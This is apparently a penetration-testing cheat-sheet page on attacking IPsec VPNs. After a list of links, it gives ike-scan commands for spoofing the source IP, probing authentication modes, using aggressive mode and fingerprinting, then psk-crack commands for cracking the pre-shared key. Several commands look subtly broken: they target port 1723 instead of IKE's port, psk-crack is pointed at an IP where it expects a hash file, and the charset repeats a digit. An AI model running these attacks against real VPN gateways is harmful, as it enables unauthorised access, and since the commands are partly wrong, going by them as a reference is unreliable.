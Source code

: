 # ⭕ VPNs

## Resources

{% embed url="https://github.com/0x90/vpn-arsenal" %}

{% embed url="https://opensourceforu.com/2012/01/ipsec-vpn-penetration-testing-backtrack-tools" %}

{% embed url="http://devloop.users.sourceforge.net/index.php?article108%2Fsolution-du-ctf-hacklab-vulnvpn=" %}

{% embed url="https://resources.infosecinstitute.com/vulnvpn#gref" %}

{% embed url="https://0xrick.github.io/hack-the-box/conceal#ike-scan-Setting-up-The-Connection" %}

## Techniques <a href="#exploitation-techniques" id="exploitation-techniques"></a>

### IKEv2 Authenthication IP spoofing

```
ike-scan --sport=1723 --dport=1723 --sourceip=IP_To_Spoof --ikev2 <IP>
```

#### Trying all authentication modes

```
ike-scan --dport=1723 --auth=1 <IP>
ike-scan --dport=1723 --auth=3 <IP>
ike-scan --dport=1723 --auth=64221 <IP>
```

#### IP spoofing using ike-scan

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=64221 <IP>
```

#### IP spoofing and agressive mode

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 <IP>
```

#### Show fingerprint

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 --showbackoff <IP>
```

#### Crack the key using psk-crack

```
psk-crack hash-file.txt
psk-crack -b 5 IP
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" <IP>
psk-crack -d wordlist.txt <IP>
```
